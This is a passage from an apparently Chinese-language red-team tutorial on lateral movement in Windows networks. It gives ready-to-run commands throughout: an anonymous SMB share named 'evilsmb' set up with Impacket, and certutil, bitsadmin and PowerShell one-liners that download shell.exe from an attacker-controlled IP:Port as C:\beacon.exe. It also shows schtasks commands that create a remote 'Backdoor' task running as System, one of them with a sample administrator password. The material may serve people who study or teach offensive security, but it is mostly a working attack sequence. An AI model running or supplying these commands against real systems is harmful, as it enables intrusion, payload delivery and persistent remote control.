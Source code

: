 在实战中，攻击者可以在自己的主机上或所控内网主机上搭建`SMB`服务器，将需要横向传输的文件放入`SMB`服务器的共享目录，并指定`UNC`路径，让横向移动的目标主机远程加载`SMB`共享的文件。需要注意的是，要使用`SMB`匿名共享，并且搭建的`SMB`服务器能够被横向移动的目标所访问到。

实现方式：

- `Linux`系统上，通过`Impacket`项目提供的`smbserver.py`来搭建`SMB`服务器。

```bash
mkdir /root/share
python smbserver.py evilsmb /root/share -smb2support
```

- `Windows`系统上，如果已经获取了管理员权限，可以手动配置`SMB`匿名共享，也可以通过`Invoke-BuildAnonymousSMBServer`在本地快速启动一个匿名共享。

## 利用Windows自带工具

```bash
# Certutil, Certutil是Windows自带的命令行工具, 用于管理Windows证书并作为证书服务的一部分安装
certutil -urlcache -split -f http://IP:Port/shell.exe C:\beacon.exe

# BITSAdmin, Bitsadmin是一个Window命令行工具, 可以用于创建、下载或上载作业, 监视其进度, Win7及以后版本自带Bitsadmin工具
# 创建一个名为test的Bitsadmin任务, 下载shell.exe到本地
bitsadmin /transfer test http://IP:Port/shell.exe C:\beacon.exe

# Powershell, 可以通过创建WebClient对象来实现文件下载
(New-Object Net.WebClient).DownloadFile('http://IP:Port/shell.exe', 'C:\beacon.exe')
```

# 创建计划任务

## 常规利用流程

攻击者可以通过已有的`IPC`连接，在远程主机上创建计划任务，让目标主机在规定的时间节点或周期内执行特定操作，具体操作流程如下：

- 利用已建立的共享连接向远程主机上传攻击载荷；
- 利用已建立的`IPC`连接或指定用户凭据的方式在远程主机上创建计划任务，执行命令。

```powershell
# /S, 指定要连接到的系统; /TN, 指定要创建的计划任务的名称; /SC, 指定计划任务执行频率; /MO, 制定计划任务执行周期; /TR, 制定计划任务运行的程序路径; /RU, 制定计划任务运行的任务权限; /F, 如果指定的任务已经存在, 则强制创建
schtasks /Create /S 192.168.93.30 /TN Backdoor /SC minute /MO 1 /TR C:\beacon.exe /RU System /F

# 如果没有建立IPC连接, 也可以手动指定远程主机的用户凭据
schtasks /Create /S 192.168.93.30 /TN Backdoor /SC minute /MO 1 /TR C:\beacon.exe /RU System /F /U Administrator /P H3rmesk1t@123

# 立即启动计划任务
schtasks /RUN /S 192.168.93.30 /I /TN Backdoor

# 删除计划任务
schtasks /Delete /S 192.168.93.30 /TN Backdoor /F

# 利用计划任务在远程主机上执行系统命令
schtasks /Create /S 192.168.93.30 /TN Backdoor /SC minute /MO 1 /TR "C:\Windows\System32\cmd.exe /c 'whoami > C:\result.txt'" /RU System /F
type \\192.168.93.30\C$\result.txt
```
